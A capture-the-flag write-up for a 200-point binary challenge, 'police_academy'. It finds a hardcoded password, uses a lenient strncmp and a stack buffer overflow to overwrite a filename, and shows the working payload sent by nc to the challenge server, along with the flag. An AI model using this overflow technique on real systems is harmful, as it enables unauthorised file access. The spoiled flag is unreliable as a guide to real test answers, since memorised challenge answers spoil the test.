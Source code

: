 # Old school hack
binary - 200 points

## Challenge 
> Chris is trying out to be a police officer and the applications have just been sent into the police academy. He is really eager to find out about his competition. Help it him back the system and view the other applicant’s applications.

> The service is running at 128.199.224.175:13000 

> [police_academy](police_academy)

## Solution


#### Analysis
Looking in the decompiled code, we find the password easily

    __isoc99_scanf(0x400e41, &var_40);
    if (strncmp(&var_40, "kaiokenx20", 0xa) == 0x0) goto loc_400a14;

Now let's try to access the cases...

Case 1 through 6 gives us some plaintext, while 7 doesn't allow showing the flag.

	$ ./police_academy 
	Enter password to authentic yourself : kaiokenx20
	Enter case number: 

		 1) Application_1
		 2) Application_2
		 3) Application_3
		 4) Application_4
		 5) Application_5
		 6) Application_6
		 7) Flag

		 Enter choice :- 7
	You don't have the required privileges to view the flag, yet.


From the decompiled code, we see that `print_record()` is called with the filename passed as the parameter for each case.

Except for case number 7, the filename appears to be the MD5 sum appended with `.dat`. This gives it a total length of 36 chars for the file name.

	# For case 1
	>>> p64(0x3037303838356132) + p64(0x3566356538656130) + p64(0x6339666439616331) + p64(0x6436353334346135) + p64(0x7461642e) 
	'2a5880700ae8e5f51ca9df9c5a44356d.dat\x00\x00\x00\x00'

	# For case 7
	>>> p64(0x7478742e67616c66)
	'flag.txt'


We can't read the flag because `print_record()` rejects any filename that isn't 36 chars long.

#### Exploit

Now, in the decompiled code we see the only vulnerable part is `scanf` and buffer overflow. Interestingly, we see something odd about the compare function. They are using `strncmp()`. 
	
	strncmp(&var_40, "kaiokenx20", 0xa)

This only compares the first 10 chars. Hence, we can append any amount of data after `kaiokenx20` and it will still be the correct password.

---

Next, notice that if the case number is more than 7 (say number 8), it jumps to print `var_30` straight away.

This means we can use buffer overflow to set the filename.

	    if (rax > 0x7) goto loc_400cb8;
	...

	loc_400cb8:
	    if (print_record(&var_30) == 0xffffffff) {
	            printf("\nNo such record exists. Please verify your choice.");
	    }

Let's look for the length required...

    ; Variables:
    ;    var_8: -8
    ;    var_30: -48
    ;    var_40: -64
    ;    var_44: -68
    ;    var_48: -72

- var_40: password [16 byte]
- var_30: filename [40 byte]
- var_8: stack canary

Hence, we need to have the password 16 bytes long, followed by 36 bytes of the filename. (Total payload length is `16 + 36 = 52 bytes`)

	$ printf 'kaiokenx20xxxxxx0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\n8' | strace ./police_academy
	...
	open("0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ", O_RDONLY) = -1 ENOENT (No such file or directory)

Success, we found the filename to be written!

#### Get flag!

Let's read `flag.txt`, or shall I say `././././././././././././././flag.txt` (36 chars)


	$ printf 'kaiokenx20xxxxxx././././././././././././././flag.txt\n8' > payload.txt
	$ cat payload.txt | nc 128.199.224.175 13000


	Enter password to authentic yourself : Enter case number: 

		 1) Application_1
		 2) Application_2
		 3) Application_3
		 4) Application_4
		 5) Application_5
		 6) Application_6
		 7) Flag

		 Enter choice :- 
	XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
	XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

	The flag is :- pctf{bUff3r-0v3Rfl0wS`4r3.alw4ys-4_cl4SsiC}
	?

	XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
	XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

	files $ 

## Flag

	pctf{bUff3r-0v3Rfl0wS`4r3.alw4ys-4_cl4SsiC}
